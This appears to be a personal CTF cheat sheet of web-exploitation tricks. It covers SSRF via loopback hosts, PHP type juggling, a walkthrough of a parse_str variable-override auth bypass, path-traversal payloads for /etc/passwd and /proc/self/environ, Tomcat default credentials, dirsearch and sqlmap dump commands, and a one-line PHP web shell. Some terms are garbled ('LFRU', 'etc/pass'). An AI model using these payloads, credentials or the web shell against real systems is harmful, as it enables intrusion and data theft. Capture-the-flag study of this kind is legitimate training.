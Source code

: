 # Tips and Tricks for Web

## Robots
Sometimes you gotta check out for `/robots.txt`

## Website Loopback:
If a challange asks for Preview a URL, we can use a [Payload](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery) or a [nip](https://nip.io/) or [loopback](https://qiita.com/shimoju/items/81ed5055d2fec5bb9c1e) to exploit a vulnerability in DNS to get the flag

## PHP
### PHP []
When Submit was pressed, a POST request was sent to the server containing:  `password=yourinput`
We break the application by passing an array as the password:  `password[]=`

### PHP Code Page:
If you are presented with a page that has a line of PHP code like:
```php
<?php
$hashed_key = '79abe9e217c2532193f910434453b2b9521a94c25ddc2e34f55947dea77d70ff';
$parsed = parse_url($_SERVER['REQUEST_URI']);
if(isset($parsed["query"])){
    $query = $parsed["query"];
    $parsed_query = parse_str($query);
    if($parsed_query!=NULL){
        $action = $parsed_query['action'];
    }

    if($action==="auth"){
        $key = $_GET["key"];
        $hashed_input = hash('sha256', $key);
        //echo $hashed_input.'\n';
        if($hashed_input!==$hashed_key){
            die("GTFO!");
        }

        echo file_get_contents("/flag");
    }
}else{
    show_source(__FILE__);
}
?>
```
Then you need to excute the commands in the url line such as `<host>/?action=auth&`  
So, inorder to get the flag from the above, we need to make our own `key` with `$ echo -n test | sha256sum` that will give us the new key `9f86d081884c7d659a2feaa0c55ad015a3bf4f1b2b0b822cd15d6c15b0f00a08` and now we execute in the url `<host>/?action=auth&key=test&hashed_key=9f86d081884c7d659a2feaa0c55ad015a3bf4f1b2b0b822cd15d6c15b0f00a08` which will give us the flag

## Web Upload

If we have a LFRU (Local File Remote Upload) we use:
`http://website.com:port/files/../../../../etc/pass`.
If that doesnt work we then use
`http://website.com:port/files/..%2F..%2F..%2F..%2Fetc%2Fpass`
for LFI.

If `etc/pass` is useless we use then `/proc/self/environ` by `http://website.com:port/files/..%2F..%2F..%2F..%2Fproc%2Fself%2Fenviron`
Add more %2F inbetween if needed.

## Tomcat Manager
Apache Tomcat has a `manager`, so inorder to access him we place this at the end of the url `/manager/html`.  
If luck still isnt on our side, we add tomcat default credentials too at the begining of the url, such as: `http://tomcat:tomcat@host:proxy/manager/html`


## dirsearch

python3 dirsearch.py -u host --proxy=http://host:port/ -e sh,txt,php,html,htm,asp,aspx,js,xml,log,json,jpg,jpeg,png,gif,doc,pdf,mpg,mp3,zip,tar.gz,tar

## SQL Map
### SQL Injection
If we have a input box vulnerable to `SQL Injection`, we can execute this command through a `POST` request:  
`sqlmap.py -r post.txt -p id --dump`  
In the post file we will have the `POST` request, we can get it from `Google Developer tools` or `Burp`  
(post.txt)
```sh
POST /index.php HTTP/1.1
Host: host
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:51.0) Gecko/20100101 Firefox/51.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://host/index.php
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 21
 
id=a&submit1=submit
```

## Image Valun
<?php system($_GET['cmd']); die(); ?>
